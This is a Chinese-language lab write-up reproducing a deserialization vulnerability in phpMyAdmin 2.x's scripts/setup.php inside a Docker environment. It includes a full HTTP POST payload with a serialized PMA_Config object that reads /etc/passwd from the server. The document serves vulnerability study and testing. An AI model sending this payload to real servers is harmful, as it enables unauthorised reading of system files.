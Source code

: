 # phpmyadmin scripts/setup.php 反序列化漏洞（WooYun-2016-199433）

phpmyadmin 2.x版本中存在一处反序列化漏洞，通过该漏洞，攻击者可以读取任意文件或执行任意代码。

## 环境搭建

执行如下命令启动phpmyadmin：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8080`，即可看到phpmyadmin的首页。因为没有连接数据库，所以此时会报错，但我们这个漏洞的利用与数据库无关，所以忽略。

## 漏洞复现

发送如下数据包，即可读取`/etc/passwd`：

```
POST /scripts/setup.php HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 80

action=test&configuration=O:10:"PMA_Config":1:{s:6:"source",s:11:"/etc/passwd";}
```

![](1.png)
